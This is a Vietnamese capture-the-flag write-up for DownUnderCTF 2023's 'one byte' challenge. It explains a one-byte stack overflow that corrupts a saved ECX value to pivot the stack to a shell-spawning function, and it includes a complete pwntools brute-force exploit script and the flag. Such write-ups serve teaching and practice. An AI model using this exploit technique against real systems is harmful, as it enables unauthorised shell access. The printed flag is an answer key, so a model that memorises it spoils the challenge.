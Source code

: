 # one byte

nhìn đơn giản mà khá đau đầu đó

## source C

```python
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

void init() {
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
}

void win() {
    system("/bin/sh");
}

int main() {
    init();

    printf("Free junk: 0x%lx\n", init);
    printf("Your turn: ");

    char buf[0x10];
    read(0, buf, 0x11);
}
```

nhìn thì tưởng ret2win baby nhưng mà không phải đâu :)) 

chương trình cho ta địa chỉ của init, dee và **ta leak được exe base**

thử nhập 15byte a xem sao

![image](https://github.com/gookoosss/CTF/assets/128712571/67d33e9d-5952-4851-9b5a-d388f338b021)


hmm ở đây ta ko thay đổi rip được vì nó nằm trên stack ta nhập vào , nhưng mà khoan đã **hãy để ý địa chỉ 0xffffd210 và xem sự thay đổi**

![image](https://github.com/gookoosss/CTF/assets/128712571/0971040a-4350-44f3-8047-da069db085e3)


**lúc này ecx là 0xffffd210 và tiếp theo esp sẽ bằng ecx - 0x4**, hmm nếu vậy ta hoàn toàn có thể thay đổi được 1 byte ecx thành địa chỉ chứa shell ta cần để ret2win như bình thường

bây giờ ta thử ret2win xem sao, byte cuối ta cho đại là "d" đi thành đuôi 64

```python 
exe_leak = int(p.recvline()[:-1], 16)
exe.address = exe_leak - 0x11bd

log.info("exe leak: " + hex(exe_leak))
log.info("exe base: " + hex(exe.address))

payload = p32(exe.sym['win'])
payload += p32(exe.sym['win'])
payload += p32(exe.sym['win'])
payload += p32(exe.sym['win'])
payload += b'd'

p.send(payload)
```
![image](https://github.com/gookoosss/CTF/assets/128712571/e98c1a65-190f-40c7-b6a3-413982f4520f)


hmm vấn đề ở đây là ta ko có địa chỉ stack nên ko leak được địa chỉ nào chứa win cả , nên ta đành phải brute force đến khi nào lấy shell thì thoi

![image](https://github.com/gookoosss/CTF/assets/128712571/6e62a73c-dc07-4809-8138-fbba40ca9576)

dee tầm 10s là ta có shell rồi

## script

```python 
from pwn import *

while True:
    # p = process('./onebyte')
    p = remote('2023.ductf.dev', 30018)
    exe = ELF('./onebyte')

    p.recvuntil(b'junk: ')

    # gdb.attach(p, gdbscript = '''
    # b*main+93
    # c
    # ''')

    # input()

    exe_leak = int(p.recvline()[:-1], 16)
    exe.address = exe_leak - 0x11bd

    log.info("exe leak: " + hex(exe_leak))
    log.info("exe base: " + hex(exe.address))

    payload = p32(exe.sym['win'])
    payload += p32(exe.sym['win'])
    payload += p32(exe.sym['win'])
    payload += p32(exe.sym['win'])
    payload += b'd'

    p.send(payload)

    try:
        p.sendline(b'echo ABCDABCD')
        p.recvuntil(b'ABCDABCD')
        break
    except:
        try:
            p.close()
        except:
            pass

p.interactive()

# DUCTF{all_1t_t4k3s_is_0n3!}
```

## Flag 

DUCTF{all_1t_t4k3s_is_0n3!}









